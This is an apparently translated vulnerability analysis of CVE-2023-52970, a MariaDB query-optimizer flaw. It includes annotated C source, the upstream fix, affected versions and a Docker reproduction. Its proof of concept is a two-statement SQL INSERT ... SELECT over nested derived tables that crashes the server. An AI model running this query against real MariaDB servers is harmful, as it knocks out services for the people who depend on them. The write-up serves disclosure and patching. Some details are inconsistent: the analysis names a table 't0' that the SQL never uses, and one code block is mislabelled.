



# CVE-2023-52970 CWE-1038 MariaDB DoS

## Vulnerability Background
- **MariaDB :** An open-source relational database management system developed by the founders of MySQL, highly compatible with MySQL. It features high performance, high security, and ease of use, supporting multiple storage engines to ensure reliable data storage and efficient read/write operations. At the same time, MariaDB also possesses powerful query optimization capabilities, enhancing database performance and being widely used across various industries, providing strong support for data storage and management.
- **Query Optimizer:** One of the core components of database systems, responsible for generating various feasible execution plans based on table structure, indexes, statistics, etc., after receiving SQL queries, and selecting the optimal one to improve query efficiency. Optimizers usually consider factors such as join order, index usage, and table access methods (such as full table scan or index scan), and sometimes rewrites or merges subqueries to reduce computational load and I/O overhead. It directly affects database performance and serves as an important bridge between the database execution engine and user queries.
- **Derived Table:** In SQL queries, temporary tables generated using subqueries exist in the FROM clause, usually written as (SELECT ...) AS: Also known as Derived tables are not permanently stored during execution but are dynamically generated in queries as needed. Their function is to encapsulate complex logic into intermediate results for use by outer queries. Derived tables can be merged or materialized, and optimizers select appropriate strategies based on context and semantics to ensure a balance between correctness and performance.
- **Merge:** A strategy used by database optimizers when handling subqueries or derived tables, where the execution plan of subqueries is directly "inlined" into outer queries, as if the content of subqueries is written in the outer query. This reduces the generation of intermediate results and improves query performance. Merge is usually used for subqueries with clear semantics and no side effects (such as not relying on external references or reuse). Compared to materialization, it has the advantage of high execution efficiency, but in some cases (such as subqueries conflicting with the main query table names or need independent evaluation), it cannot be used and requires reinforcement.
- **Materialization:* A strategy in database query optimization, referring to executing certain subqueries (such as derived tables, CTEs) once before executing queries and saving the results as temporary tables for future queries. This approach is usually used to avoid redundant counting, resolve dependency conflicts, or ensure semantic accuracy when subqueries cannot be merged. Compared to the "merge" strategy, materialization increases memory or disk overhead but ensures correct data processing in complex reference scenarios (such as object tables with subquery names).
- **Field metadata and field reference chains:** Field metadata describes the attribute information of each field (column) in the table, which is part of the "table structure."
  It contains all the information the database engine needs to understand and operate on fields. The field reference chain is the "pointer chain" within the SQL query optimizer and executor, showing how nodes in the Item tree point to the underlying actual fields.
- **CWE-1038 (Insecure Automated Optimizations):* *Unsafe automatic optimizations. This refers to software performing performance or functional optimizations without sufficient security consideration, resulting in logical errors or security vulnerabilities during the optimization process. This allows attackers to exploit these incorrect or insecure optimization behaviors to trigger crashes, data tampering, or bypass security checks. Typical cases include crashes caused by database query optimizers mishandling external references.

## Vulnerability Mechanism
A complex and contradictory state management flaw when handling `INSERT` statements in the MariaDB query optimizer. Specifically, when a derived table is initially decided by the optimizer to adopt a "merge" strategy, but later is forcibly switched to a "materialization" strategy because the derived table references `INSERT`'s target table, the optimizer fails to correctly revoke or recorrect the field parsing previously performed based on the "merge" strategy resolution), meaning there is no synchronized update of the field reference chain (Item tree), causing structures like `Item_direct_view_ref` to still point to the old reference, causing errors when searching for fields.

That is, in multi-layer nested derived table scenarios, when switching between mergeable → materialized, `change_refs_to_fields()` only synchronizes one layer of field references, causing the expression tree to still have hanging (unupdated) field references, which eventually crash when the downstream function searches for the field.

- CVE-2023-52969: After materialization, **field metadata is not synchronized**; the error lies in table structure and field count.
- CVE-2023-52970: After materialization, **field reference chain is not synchronized**; the error lies in expression reference/lookup.

## Vulnerability Location
1. In the **sql \item .cc** file, line **7809**** `derived_field_transformer_for_where` function** is used to replace references to derived table/view fields with references to actual underlying table fields in contexts such as WHERE clauses. However, if the field reference chain structure is inconsistent (for example, a reference created in mergeable state without synchronizing to reinstated state), an assertion will be triggered when line **7818** `find_producing_item()` returns NULL, causing the process to crash.

   ```c
   SQL \item .cc 7809 lines
   After switching materialization, the field reference chain is not synchronized
   Some expressions also point to the old mergeable derivation table structure, causing the search to fail
   Item *Item_direct_view_ref::derived_field_transformer_for_where(THD *thd, uchar *arg)
   {
     if ((*ref)->marker & MARKER_SUBSTITUTION)
       return (*ref);
     if (item_equal)
     {
       st_select_lex *sel= (st_select_lex *)arg;
       Item *producing_item= find_producing_item(this, sel);
         ***** 7818 ***** Vulnerability Trigger Points *****
       DBUG_ASSERT (producing_item != NULL);
       return producing_item->build_clone(thd);
     }
     return (*ref);
   }
   ```

   Line **7706** `find_producing_item` Function** is responsible for referencing the outer SELECT/derived table/view fields layer by layer to "unpack" them, ultimately locating the underlying actual fields, thereby ensuring accurate field access during SQL optimization and execution.

   At line **7787**, it attempts to find the `select_list` in the SELECT statement based on the `field_index` of the field. However, after switching between merge → materialize, select_list is out of sync with the field reference chain, and this one-to-one correspondence fails, eventually the field cannot be found, and NULL is returned.

   ```c
   SQL \item .cc 7706 lines
   static Item *find_producing_item(Item *item, st_select_lex *sel)
   {
     // ... .... 
     if (item->used_tables() == tab_map)
       field_item= (Item_field *) (item->real_item());
     // .... ....
     List_iterator_fast <Item>  li(sel->item_list);
     if (field_item)
     {
       Item *producing_item= NULL;
         Line 7787 Searches for select_list in the SELECT statement based on the field_index of the field
       uint field_no= field_item->field->field_index;
       for (uint i= 0; i <= field_no; i++)
         producing_item= li++;
       return producing_item;
     }
     return NULL;
   }
   ```

2. In the **sql \sql _base.cc** file, line **1104**, ** `find_dup_table` function** is one of the core functions in MariaDB for handling SQL table reference collision detection. Its function is to detect whether the target table is included in the query (such as derived tables or subqueries) when executing statements like `INSERT INTO t SELECT ... FROM`, to avoid logical confusion or even crashes.

   The statement in line **1200** is used to check whether a conflict has been found, and that the conflict is related to a derivation table. In line 1214, when the target table (e.g., `t1`) is referenced in a derived table (e.g., `SELECT * FROM (SELECT * FROM t1) as tmp`), and the derivative table is merged, to avoid recursive reference conflicts, the `set_materialized_derived` function is called to force the derivation table to switch from merge mode to materialized mode.

   ```c
   SQL \sql _base.cc 1214 line find_dup_table function
   
   1200 lines, check if a conflict has been found, and that the conflict is related to a derived table; res indicates a table name conflict has been found
   if (res && res->belong_to_derived)
     {
       Get this conflict derivative table
       TABLE_LIST *derived=  res->belong_to_derived;
       Check whether the optimizer originally planned to "merge" this derivative table
       if (derived->is_merged_derived() && !derived->derived->is_excluded())
       {
         DBUG_PRINT("info",
                    ("convert merged to materialization to resolve the conflict"));
           Prepare to switch execution plans and update the expression tree reference
         derived->change_refs_to_fields();
   ***** Line 1214 ********** Change the execution plan from "merging" to "materializing" **************** vulnerability points*************
         derived->set_materialized_derived();
           Jump to the retry tag and let the optimizer reanalyze the new plan
         goto retry;
       }
     }
   ```

   Later, line **9799** `change_refs_to_fields` function** is mainly used to replace the expression originally pointing to the underlying table field with the field pointing to the new materialized table when the derived table (such as a derived table/view) switches from mergeable to materialized.
   This ensures that each field reference in the expression tree always points to the current, valid field object, preventing "pending references" or crashes during subsequent execution.

    `change_refs_to_fields()` will only sync the `Item_direct_ref` on the current derived table `used_items` the linked list. However, in multi-layer nested derived table/view scenarios, many field references are not on the `used_items` of the current layer but exist on nodes of the outer `SELECT_LEX` `item_list` or more outer expression trees (such as `Item_direct_view_ref` nested).

   This function does not recursively return all nodes of the expression tree (such as SELECT, WHERE, HAVING, ORDER BY, and all possible field reference points); it only synchronizes the relevant references to the current table's select list. This is where the **vulnerability** lies. Later, when searching for fields along the chain in `find_producing_item()`, encountering unsynchronized old references returns NULL, causing assertion failures and program crashes.

   ```c
   SQL \table.cc 9799 line find_dup_table function
   bool TABLE_LIST::change_refs_to_fields()
   {
   ***** 9801 Rows ********** Traversing Derived Tables Select List Reference Chain ************* Vulnerability Points ***********
     List_iterator <Item>  li(used_items);
     Item_direct_ref *ref;
     Field_iterator_view field_it;
     Name_resolution_context *ctx;
     THD *thd= table->in_use;
     Item **materialized_items;
     DBUG_ASSERT(is_merged_derived());
   If the current derived table does not have a referenced field, it returns directly.
     if (!used_items.elements)
       return FALSE;
   Allocate reference space for all new objectification fields and construct context for name parsing.
     materialized_items= (Item **)thd->calloc(sizeof(void *) * table->s->fields);
     ctx= new (thd->mem_root) Name_resolution_context(this);
       
     if (!materialized_items || !ctx)
       return TRUE;
   Traverse used_items and synchronize references. For each field reference in the used_items (Item_direct_ref), find its corresponding reprocessed field (table->field[idx]), and replace the original reference with a new Item_field.
     while ((ref= (Item_direct_ref*)li++))
     {
         Find the original reference field
       uint idx;
       Item *orig_item= *ref->ref;
       field_it.set(this);
       for (idx= 0; !field_it.end_of_fields(); field_it.next(), idx++)
       {
         if (field_it.item() == orig_item)
           break;
       }
       DBUG_ASSERT(!field_it.end_of_fields());
         If the field has not yet been created Item_field, it is created
       if (!materialized_items[idx])
       {
         materialized_items[idx]=
           new (thd->mem_root) Item_field(thd, ctx, table->field[idx]);
         if (!materialized_items[idx])
           return TRUE;
       }
         Replace the reference
       thd->change_item_tree((Item **)&ref->ref,
                             (Item*) (materialized_items + idx));
        Notification has changed
       ref->ref_changed();
     }
   
     return FALSE;
   }
   ```

## Remediation
Upgrade to a maintained MariaDB release containing the MDEV-32086 correction. The upstream tracker lists fixes in 10.5.29, 10.6.22, 10.11.12, 11.4.6, and 11.8.2. Because MariaDB 10.11.12 and 11.4.6 were withdrawn for unrelated performance regressions, use 10.11.13 or later and 11.4.7 or later instead. EOL branches such as 10.4, 10.7–10.10, 11.0, and 11.1 should be migrated to a supported fixed branch.

Existing logic such as `find_dup_table` self-characterization and reference synchronization has been simplified or partially removed, relying on new recursive detection and clearer return value handling (such as `ERROR_TABLE`), **avoiding various omissions caused by synchronizing only one layer of reference chains**.

The final fix ensures that every time the derived table merges → materializes, it no longer relies solely on `change_refs_to_fields()` to fix the field references when mergeable→materialized, but introduces **recursive check and callback mechanisms** that can accurately detect self-references within all related expressions (including multi-level derived tables, RETURNING, VALUES, etc.). And correct handling (such as direct error reports or special handling) to avoid omissions.

1. Added `unique_table_in_select_list` function to recursively detect callbacks from self-references in the object table; if a reference is detected, it will synchronize or cause an error.

   ```c
   TABLE_LIST* unique_table_in_select_list(THD *thd, TABLE_LIST *table, SELECT_LEX *sel)
   {
     subselect_table_finder_param param= {thd, table, NULL};
     List_iterator_fast <Item>  it(sel->item_list);
     Item *item;
      item_list recursively walk all expressions for SELECT_LEX
     while ((item= it++))
     {
         Call Item::walk() combined with subselect_table_finder_processor to recursively find all subqueries, whether expressions reference the target table.
       if (item->walk(&Item::subselect_table_finder_processor, FALSE, &param))
       {
           If a direct reference (param.dup) is found, it returns an error or specific TABLE_LIST to thoroughly prevent omissions.
         if (param.dup == NULL)
           return ERROR_TABLE;
         return param.dup;
       }
       DBUG_ASSERT(param.dup == NULL);
     }
     return NULL;
   }
   ```

2. Added a unified entry point for `find_table` functions, supporting different callbacks. `find_table` Different callbacks can be flexibly called according to different scenarios (such as standard bracelets, select_list, RETURNING, etc.). This allows for **recursive and accurate target table self-reference checking** for all SQL scenarios.

   ```c
   static
   TABLE_LIST*
   find_table(THD *thd, TABLE_LIST *table, TABLE_LIST *table_list,
              uint check_flag, SELECT_LEX *sel, find_table_callback callback )
   {
     TABLE_LIST *dup;
     // ... Traverse all relevant chains and subtables
     if ((dup= (*callback)(thd, table, table_list, check_flag, sel)))
       break;
     // ...
     return dup;
   }
   ```

## Affected Versions
**Impact on Versions**:

- MariaDB 10.4.x and 10.5.x through 10.5.28
- MariaDB 10.6.x through 10.6.21
- MariaDB 10.7.x through 10.11.11
- MariaDB 11.0.x
- MariaDB 11.1.x through 11.4.5
- The upstream MDEV tracker also records a fix in 11.8.2, indicating that 11.8.0–11.8.1 should be treated as affected

**Impact Components**: Query optimizer (especially the aggregation processing part)

## Environment Setup
In the Docker environment, MariaDB version is 10.11.5, the administrator is root, password is 12345, and there is a database test_db.



## Vulnerability Reproduction
1. Enter the container command line;

   ```bash
   docker exec -it mariadb-10.11.5 bash
   ```

2. Use the root user to connect to MariaDB's test_db database, password 12345;

   ```bash
   mariadb -u root -p test_db
   ```

3. After executing the following two SQL commands in sequence, you will see MariaDB crash and exit the container;

   ```sql
   create table t1 (pk int, id int);
   
   INSERT INTO t1 SELECT 1,10  FROM  (SELECT dt2.id FROM (SELECT id FROM t1) dt2,t1 t WHERE t.id=dt2.id) dt WHERE dt.id=3;
   ```

   

4. Checking the container logs, you can see that the MariaDB service process (`mysqld`) has received signal 11 (SIGSEGV), which is a segmentation fault, indicating that the program is attempting to access unallocated or illegal memory addresses, causing a crash.

   ```bash
   docker logs mariadb-10.11.5
   ```

   

## PoC Analysis

```sql
-- Create table t1
create table t1 (pk int, id int);
```

The optimizer starts processing a `INSERT ... SELECT` statement, where the `SELECT` part contains a derivation table `dt`, and the `dt` itself contains a derivation table `dt2`, both of which reference `INSERT`  Target table `t0`. The optimizer first assumes that `dt` and `dt2` can be merged and parses all fields. It was then discovered that `dt` referenced `t0`, so `dt` was forced to objectify.

 `change_refs_to_fields()` only syncs the field reference chain (`used_items`) of the currently derived table (`dt2`).
However, in multi-layer nesting, the outer SELECT fields (such as `dt.id`) are actually multi-layer `Item_direct_view_ref` wraps, resulting in only the inner `dt2` references being synchronized, while the outer `dt` field reference chains are not updated.

That is, when switching to mergeable→materialized, `change_refs_to_fields()` only replaces `dt2` `used_items`.
But the outer `dt.id` is actually a `dt(dt2(t1.id))` linked reference; the field reference chains for `dt` and outer `select` have not been handled, and the structure is still the same.

When executing `derived_field_transformer_for_where`, calling `find_producing_item()` cannot find the field, triggering `DBUG_ASSERT(producing_item != NULL);` and causing the database to crash.

```sql
-- Insert data into table t1
insert into t1
  select 1,10
  from
  (
    select dt2.id from 
      (
          -- Extract the id field from the t1 table as a temporary table (derived table) dt2
          select id from t1
      )
      -- dt2 and t1 are treated with Cartesian products, then perform equivalence concatenation
      dt2, t1 t 
      where t.id=dt2.id
  ) dt
  where dt.id=3;
```

## References
[NVD - CVE-2023-52970](https://nvd.nist.gov/vuln/detail/CVE-2023-52970)

[[MDEV-32086\] Server crash when inserting from derived table containing insert target table - Jira --- [MDEV-32086] Server crash when inserting from derived table containing insert target table - Jira](https://jira.mariadb.org/browse/MDEV-32086)

[MDEV-32086 Failure to insert from derived table containing target table by mariadb-RexJohnston · Pull Request #3936 · MariaDB/server](https://github.com/MariaDB/server/pull/3936)
